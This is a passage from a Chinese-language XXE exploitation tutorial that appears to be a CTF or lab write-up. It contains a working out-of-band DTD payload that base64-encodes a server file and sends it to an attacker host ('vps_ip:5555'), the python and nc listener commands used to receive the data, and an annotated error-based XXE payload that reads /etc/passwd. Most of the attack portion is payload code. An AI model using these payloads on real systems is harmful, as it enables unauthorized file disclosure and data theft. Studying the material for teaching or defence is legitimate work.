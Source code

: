 ```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % dtd "<!ENTITY &#x25; xxe  SYSTEM 'http://vps_ip:5555/%file;'> ">
%dtd;
%xxe;
```

准备完文件我们还需要外部能访问到我们的dtd文件，我们使用python启动一个http服务，监听8000端口

```bash
python3 -m http.server 8000
```

准备一个数据接收的服务， 我们可以使用nc监听上面dtd文件中定义好的 `5555`端口

```bash
nc -lvvnp 5555
```

准备全部就绪之后，bp发送请求

> python收到请求

![image-20231208001202329](https://p.ipic.vip/hv6sla.png)

> NC收到数据

![image-20231208001423477](https://p.ipic.vip/spxfbu.png)

解密数据

![image-20231208001616692](https://p.ipic.vip/26vbb4.png)



### 基于错误回显的XXE利用

> 如果服务器有防火墙，组织了对外建立连接，那我们就需要错误回显,如果服务器开了报错的话

#### XML内部DTD报错回显payload

> 这个方法不一定每次都奏效，得看目标服务器具体环境，可以作为一个备选项 [来源P神]

```DTD
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!-- 定义一个名为 %condition 的参数实体 -->
    <!ENTITY % condition '
        <!-- 在 %condition 实体内定义另一个参数实体 %file，指向服务器上的 /etc/passwd 文件 -->
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
      
        <!-- 在 %condition 实体内定义 %eval 实体，该实体定义了名为 %error 的新实体 -->
        <!-- %error 实体尝试加载由 %file 构造的不存在的文件路径，此处 %file 代表 /etc/passwd -->
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
      
        <!-- 执行 %eval 实体，导致定义 %error 实体 -->
        &#x25;eval;
      
        <!-- 使用 %error 实体，预期会导致解析器尝试访问一个不存在的文件路径 -->
        <!-- 并在错误信息中包含实际尝试访问的 /etc/passwd 文件 -->
        &#x25;error;
'>
    <!-- 触发 %condition 实体 -->
    %condition;
]>
<message>any text</message>
```

